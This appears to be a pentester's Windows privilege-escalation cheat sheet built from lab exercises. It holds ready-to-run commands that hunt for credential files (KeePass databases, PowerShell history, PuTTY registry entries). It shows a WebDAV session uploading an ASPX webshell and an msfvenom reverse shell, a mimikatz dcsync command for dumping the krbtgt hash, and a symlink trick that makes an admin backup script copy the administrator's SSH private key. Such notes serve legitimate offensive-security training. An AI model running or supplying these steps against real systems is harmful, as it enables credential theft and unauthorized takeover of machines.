 #### Hidden in Plain View

```
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

```
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
```

```
Get-ChildItem -Path . -Include *.txt,*.bak,*.pdf,*.xls,*.xlsx,*.doc,*.docx -Recurse -File -ErrorAction SilentlyContinue -Force
```

```
Get-ChildItem -path c:\ -Force -Recurse -Filter *.git -ErrorAction SilentlyContinue
```
> Only look for .git files

Look for specific string:
```
Select-String -Path C:\temp\*.log -Pattern "Contoso"
```

#### Situational Awareness
```
- Username and hostname
- Group memberships of the current user
- Existing users and groups
- Operating system, version and architecture
- Network information
- Installed applications
- 
- Running processes
```

```
systeminfo
```

```
netstat -ano
```

```
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```

```
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```

```
get-process
```

```
route print
```

```
ipconfig
```

```
whoami /priv
```


#### Powershell Goldmine

```
Get-History
```

```
(Get-PSReadlineOption).HistorySavePath
```

```
gci -path . -recurse -file -include *transcript*.txt -erroraction SilentlyContinue
```

#### Seatbelt

#### Weak services
```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

### Clear text passwords in Registry!

1. Putty
```
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s
```

### Scheduled Tasks
```
schtasks /query /fo LIST /v
```

### DLL Hijacking?
```
Use procmond and analyze the binary offline
```


## Cadaver

1. Connect to the webdav server using VALID credentials.
2. Upload a aspx webshell
3. Upload a msfvenom revserse .exe shell
4. Use the aspx webshell to trigger the reverse.exe payload and catch the reverse shell with nc listener.
```
cadaver http://hutch.offsec                          
Authentication required for hutch.offsec on server `hutch.offsec':
Username: fmcsorley
Password: 
dav:/> ls
Listing collection `/': succeeded.
Coll:   aspnet_client                          0  Nov  4  2020
        iisstart.htm                         703  Nov  4  2020
        iisstart.png                       99710  Nov  4  2020
        index.aspx                          1241  Nov  4  2020
dav:/> put 
192.168.209.122.json  comment.cmtx          
dav:/> put cmdasp.aspx 
Uploading cmdasp.aspx to `/cmdasp.aspx':
Progress: [=============================>] 100.0% of 1400 bytes succeeded.
dav:/> ls
Listing collection `/': succeeded.
Coll:   aspnet_client                          0  Nov  4  2020
        cmdasp.aspx                         1400  Nov  1 21:52
        iisstart.htm                         703  Nov  4  2020
        iisstart.png                       99710  Nov  4  2020
        index.aspx                          1241  Nov  4  2020
dav:/> put shell.exe 
Uploading shell.exe to `/shell.exe':
Progress: [=============================>] 100.0% of 7168 bytes succeeded.
dav:/> 
                                                
```

#### mimikatz dcsync

```
> mimikatz lsadump::dcsync /domain:rd.adsecurity.org /user:krbtgt
```

#### SeImpersonate


#### phpmyadmin sql client excesive write perms

- Check file write permissions of the MySQL client  in the phpmyadmin to see if we can write into windows/system32. If we can successfully write into system32, we can elevate our perms using the WerTrigger method described here https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#wertrigger --> [https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/#wertrigger]  
- ![[Pasted image 20240114193657.png]]
- 
### Find writable paths in windows

```
dir /ad-r 

Parameter "/a" means to displays files with specified attributes. "d" means directory, "r" means read-only and the minus sign means not to show items with this attribute. If you would like to recursive subdirectories, you can add "/s" to the command. 

In PowerShell, you can use the above command too, like: 

cmd /r dir /ad-r
```


### Symbolic Links

In a scenario where you find that a service or any particular script is running as Admin or an elevated user, and it uses or runs any file that you can control or modify, you can try to create a symbolic link that points to another higher priv file.

In this scenario, a backup.ps1 script is run every 60 seconds to create a backup copy of the file `C:\xampp\htdocs\logs\request.log` and saves it into `C:\backup\logs`. 
```
C:\backup>type backup.ps1 
$log = "C:\xampp\htdocs\logs\request.log" 
$backup = "C:\backup\logs"

while($true) {
        # Grabbing Backup
        copy $log $backup\$(get-date -f MM-dd-yyyy_HH_mm_s)
        Start-Sleep -s 60
}
```
We gonna create a `symbolic link` that points from `C:\xampp\htdocs\logs\request.log` to `C:\users\administrator\.ssh\id_rsa` so we can read the ssh private key from the admin, which will be saved in `c:\backup\logs` when the scripts runs.

1. Delete the source file we want to use for redirect 
2. create a symbolic link using the tool from https://github.com/googleprojectzero/symboliclink-testing-tools/releases/download/v1.0/Release.7z 
```
PS C:\windows\tasks> ./CreateSymlink.exe "C:\xampp\htdocs\logs\request.log" "C:\Users\Administrator\.ssh\id_rsa"
Opened Link \RPC Control\request.log -> \??\C:\Users\Administrator\.ssh\id_rsa: 00000154
Press ENTER to exit and delete the symlink
```
> dont click enter and wait for the script to run. Clicking enter will interrupt the symlink
3. After a few minutes, we can visit and read the logs from **C:\backup\logs**.
